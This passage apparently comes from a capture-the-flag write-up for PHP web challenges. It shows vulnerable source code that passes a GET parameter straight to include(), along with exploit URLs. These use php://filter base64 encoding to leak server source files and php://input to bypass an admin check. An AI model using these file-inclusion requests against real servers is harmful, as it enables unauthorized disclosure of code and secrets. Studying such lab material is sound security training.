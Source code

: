 http://123.206.31.85:10022/hello.php?file=php://filter/convert.base64-encode/resource=hello.php
```php
hello.php
<!--upload.php-->  <?php  error_reporting(0);  if(isset($_GET['file'])){      include $_GET['file'];    }  ?>
```
http://123.206.31.85:10022/hello.php?file=php://filter/convert.base64-encode/resource=index.php
```php
index.php
<html>      <head>          <title></title>      </head>      <body>      </body>  </html>  <?php  header('content-type:text/html;charset=utf-8');  header('location:./hello.php?file=haha.php');    
```



# web21 `反序列化 php伪协议`
http://123.206.31.85:10021/
```php
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 -->
```
http://123.206.31.85:10021/?user=php://input&file=php://filter/convert.base64-encode/resource=class.php
admin
```php
class.php
<?php  
error_reporting(E_ALL & ~E_NOTICE);     
class Read{//f1a9.php      
	public $file;      
	public function __toString(){          
		if(isset($this->file)){              
			echo file_get_contents($this->file); 
		}          
		return "__toString was called!";      
	}  
}  
?>
```
http://123.206.31.85:10021/?user=php://input&file=php://filter/convert.base64-encode/resource=index.php
```php
index.php
<?php
error_reporting(E_ALL & ~E_NOTICE);
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    if(preg_match("/f1a9/",$file)){
        exit();
    }else{
        include($file); //class.php
```
